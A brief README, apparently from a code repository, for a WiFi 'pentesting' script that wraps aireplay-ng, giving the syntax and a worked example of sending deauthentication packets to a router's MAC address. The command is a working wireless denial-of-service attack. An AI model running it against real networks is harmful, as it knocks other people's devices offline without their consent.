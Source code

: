 # aireplay-ng
This script automates the process of pentesting a WiFi router by sending deauth packets 

Syntaxis:
sudo aireplay-ng -0 <number of packets> -a <WIFI MAC> wlan0 

Example:
sudo aireplay-ng -0 15 -a 00:B0:D0:63:C2:26 wlan0
